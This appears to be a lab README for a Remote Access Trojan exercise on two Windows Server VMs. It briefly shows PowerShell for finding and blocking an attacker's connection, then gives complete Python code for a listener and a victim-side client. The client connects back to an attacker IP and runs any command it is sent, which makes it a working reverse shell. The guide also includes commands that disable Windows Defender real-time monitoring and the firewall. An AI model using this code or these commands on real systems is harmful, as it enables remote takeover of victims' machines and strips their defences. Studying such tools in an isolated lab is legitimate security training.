 ### PowerShell
```bash
Get-NetTCPConnection -RemoteAddress 10.28.0.149 | Select-Object OwningProcess, State # Find which program is connecting to 10.28.0.149
Get-Process -Id <OwningProcess> | Select-Object Name, Path
```


### Block the Attacker’s IP
```bash
# Block all outbound traffic to the attacker
New-NetFirewallRule -DisplayName "Block Attacker" -Direction Outbound -RemoteAddress 10.28.0.149 -Action Block
```


---
### Remote Access Trojan (RAT) 

Network Testing - Two machines (or VMs) on the same network
- WINServer22-1 : Server
- WINServer22-2 : Client / Victim



Find the **server's local IP** (ipconfig on Windows / ifconfig on Linux).
- Replace "attacker_ip_here" in client.py with the server’s IP.
- Attacker IP: 208.8.8.140 (IPv4 Address)
port 5555 - firewall port



Disable the Windows Security Threat (only if enabled):

```bash
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
```


```
#Enable
Set-MpPreference -DisableRealtimeMonitoring $false
```

Disable the Firewall of the Server
```bash
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Ping the server IP (from client's terminal)
```bash
# Command Prompt
ping 208.8.8.140
```


Enable telnet in Windows Powershell
```bash
Enable-WindowsOptionalFeature -Online -FeatureName "TelnetClient"
```


Check if the port (5555) is listening:
```bash
Check if the port (5555) is listening:
```



## `server.py`
- This listens for incoming connections on port `5555`
- Firewall must allow inbound connections on port `5555`
  
Example PowerShell command to allow the port:
```bash
New-NetFirewallRule -DisplayName "PythonTest" -Direction Inbound -LocalPort 5555 -Protocol TCP -Action Allow
```

```python
# server.py
# server.py - Run on the ADMIN machine
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 5555))  # Listen on all network interfaces
    s.listen(1)
    print("[*] Waiting for connection...")
    
    conn, addr = s.accept()
    print(f"[+] Connected to {addr}")
    
    try:
        while True:
            cmd = input("admin$ ")
            if cmd.lower() == 'exit':
                conn.send(cmd.encode())
                break
            conn.send(cmd.encode())
            print(conn.recv(4096).decode())  # Larger buffer for big outputs
    finally:
        conn.close()
        s.close()

if __name__ == "__main__":
    start_server()

```

## `client.py `
- The client initiates the connection to the `server’s IP` (208.8.8.140)
- No need to disable the client’s firewall (outbound connections are usually allowed by default).


```python
# client.py

# client.py - Run on the TARGET machine
import socket
import subprocess

def connect_to_server(server_ip, port):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server_ip, port))
            print(f"[*] Connected to {server_ip}")
            
            while True:
                command = s.recv(4096).decode().strip()
                if command.lower() == 'exit':
                    s.close()
                    break
                
                try:
                    output = subprocess.getoutput(command)
                    s.send(output.encode())
                except Exception as e:
                    s.send(f"Error: {str(e)}".encode())
                    
        except (ConnectionError, socket.error):
            print("[!] Connection lost. Reconnecting...")
            continue

if __name__ == "__main__":
    SERVER_IP = "208.8.8.140"  # Change to the server's real IP
    PORT = 5555
    connect_to_server(SERVER_IP, PORT)

```
